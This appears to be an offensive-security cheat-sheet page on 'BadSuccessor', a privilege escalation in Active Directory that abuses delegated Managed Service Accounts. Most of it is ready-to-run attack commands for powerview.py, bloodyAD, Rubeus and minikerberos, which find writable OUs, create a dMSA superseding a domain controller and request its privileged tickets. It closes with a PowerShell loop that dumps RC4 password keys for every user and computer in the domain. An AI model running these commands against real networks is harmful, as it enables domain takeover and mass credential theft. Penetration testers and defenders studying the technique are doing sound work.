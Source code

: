 ```yaml
---
description: Abusing dMSA to Escalate Privileges in Active Directory
---
```


# BadSuccessor

- [https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187](https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187)
- [https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/](https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/)
- [https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/](https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/)
- [https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/](https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/)

Enumerate OUs where we can create child objects (using [powerview.py](https://github.com/aniqfakhrul/powerview.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD)):

```
PV > Get-DomainObjectAcl -LDAPFilter "(objectClass=organizationalUnit)" -Where "ActiveDirectoryRights contains CreateChild"
$ bloodyAD -d megacorp.local -k --host DC01.megacorp.local --dc-ip 192.168.1.11 --dns 192.168.1.11 [--gc 192.168.1.11] [-s] get writable --otype OU [--right CHILD]
```

Create a dMSA account with a superseded account in the `msDS-ManagedAccountPrecededByLink` property (using [powerview.py](https://github.com/aniqfakhrul/powerview.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD)):

```
PV > Add-DomainDMSA -Identity mydmsa -PrincipalsAllowedToRetrieveManagedPassword jdoe -SupersededAccount DC01 [-BaseDN "CN=Managed Service Accounts,DC=megacorp,DC=local"]
$ bloodyAD -d megacorp.local -k --host DC01.megacorp.local --dc-ip 192.168.1.11 --dns 192.168.1.11 [--gc 192.168.1.11] [-s] add badSuccessor mydmsa -t "CN=DC01,OU=Domain Controllers,DC=megacorp,DC=local" [--ou "CN=Managed Service Accounts,DC=megacorp,DC=local"]
```

Ask for a TGT containing the superseded account PAC (using [Rubeus](https://github.com/GhostPack/Rubeus) or [minikerberos-getDmsa](https://github.com/skelsec/minikerberos/blob/main/minikerberos/examples/getDmsa.py)):

```
Cmd > Rubeus.exe asktgs /targetuser:mydmsa$ /service:krbtgt/megacorp.local /dmsa /opsec /nowrap /ticket:<JDOE_TGT>
$ python3 minikerberos/examples/getDmsa.py 'kerberos+ccache://megacorp.local\jdoe:tgt.ccache@192.168.1.11' 'mydmsa$@megacorp.local' --ccache /tmp/mydmsa.ccache
```

Request TGT and grep for "previous keys" (from `KERB-DMSA-KEY-PACKAGE` structure), which is actually current RC4 of the superseded account, for all domain users and computers in a loop (requires [this Rubeus](https://github.com/GhostPack/Rubeus/compare/master...YuG0rd:Rubeus:master)):

```powershell
$domain = Get-ADDomain
$dmsa = "CN=mydmsa,CN=Managed Service Accounts,$($domain.DistinguishedName)"
$allDNs = @(Get-ADUser -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName) `
        + @(Get-ADComputer -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName)
$allDNs | % {
    Set-ADObject -Identity $dmsa -Replace @{ "msDS-ManagedAccountPrecededByLink" = $_.DN }
    $res = Invoke-Rubeus asktgs /targetuser:mydmsa$ /service:"krbtgt/$($domain.DNSRoot)" /opsec /dmsa /nowrap /ticket:$kirbi
    $rc4 = [regex]::Match($res, 'Previous Keys for .*\$: \(rc4_hmac\) ([A-F0-9]{32})').Groups[1].Value
    "$($_.sAMAccountName):$rc4"
}
```




## Tools

- [https://github.com/akamai/BadSuccessor](https://github.com/akamai/BadSuccessor)
- [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1)
